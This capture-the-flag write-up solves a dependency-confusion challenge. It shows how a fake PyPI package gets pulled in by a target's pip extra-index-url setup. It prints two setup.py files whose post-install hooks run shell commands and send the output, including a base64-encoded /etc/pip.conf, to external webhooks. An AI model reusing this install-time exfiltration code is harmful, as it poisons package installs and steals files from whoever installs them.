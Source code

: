 ```yaml
---
layout: post
title: "[SecurinetQuals2K21] Hack The Empire"
author: Green-Avocado
---
```


# Hack The Empire

## Description

An enemy of The Empire have a job for you. As an adversary he want to hack CTFQ21EmpireTmp. He heard that in their server is hosting their holy flag in /flag.txt

No IP address is needed in this task. Good luck.

̿̿ ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿

Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

Author: TheEmperors

## Solution

A quick Google search leads us to this blog post: https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/

![Blog Post](/assets/images/securinetquals2021/hacktheempire/blog.png?raw=true)

We can gather that the company is downloading packages from a private repository that match the following regex: `ctf_q21_empire_tmp_[a-z0-9_]{5,10}`

They also reveal the structure of their `pip.conf` file:

```
[global]
extra-index-url = http://<private_IP_and_port>/simple/
trusted-host = <private_IP>
```

Due to the behaviour of the `extra-index-url` option, pip will search their private repository in addition to the public repository, prioritizing them based on version number.

Therefore, we can trick the server into downloading a mallicious package by creating one that matches the regex with a sufficiently high version number.
We care told the location of the flag file, so we can read the flag as part of the install script.
To retreive the contents, we can use an http request containing the contents encoded in base64.

Additionally, if we search for the start of the regex, we find a removed package on PyPI, uploaded by TheEmperors.
Using Google's webcache feature, we can examine the repository despite it being removed:

https://webcache.googleusercontent.com/search?q=cache:N6A2lqcEQtcJ:https://pypi.org/project/ctf-q21-empire-tmp-bw13434/0.0.9/+&cd=1&hl=en&ct=clnk&gl=ca&client=firefox-b-d

We can download the contents of this package and modify it to work with out exploit.
The latest version of the package is [ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz](https://files.pythonhosted.org/packages/ad/17/5f0bbb9f170401e8d06b7ed15af58c5349d16622e18df196a7ed85b809fb/ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz).

Let's examine the `setup.py` script:

```py
from setuptools import setup
import os
from setuptools.command.install import install

setup(
    name='ctf-q21-empire-tmp-bw13434',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    )

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?hehe="+os.popen("id").read()) #cat /flag.txt | base64").read())
```

The `setup` call appears ordinary, however, there is an http request within the `PostInstallCommand` function.
We can see that it sends a request to a webhook containing the output of `id`.
Also, contained in a comment is a command that conveniently reads the flag file and converts it to base64.
We can modify this function to send the flag instead of the id, and we change the first request parameter to send it to a webhook controlled by us.
Importantly, we have to move the function declaration to above the call to `setup`, otherwise it will not be defined during the setup and thus will not be run.

I also changed the name of the package in hopes that it would not overlap with another package of theirs with a greater or equal version.
The package is relatively small, so all other files were updated to match the new package name.

## Exploit

```py
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://enc2i9ljmjy100e.m.pipedream.net/?hehe="+os.popen("cat /etc/pip.conf | base64").read())

setup(
    name='ctf-q21-empire-tmp-1337420',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand,
        },
    )
```

Within 5 minutes, we get a request with some data encoded in base64:

```
VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs
IGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo
dHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2
MGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw
cGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f
eERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt
b3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z
IG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug
YXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz
IGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg
LS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91
IGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl
ZC4=
```

Which can be decoded into:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

## Flag

`Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`

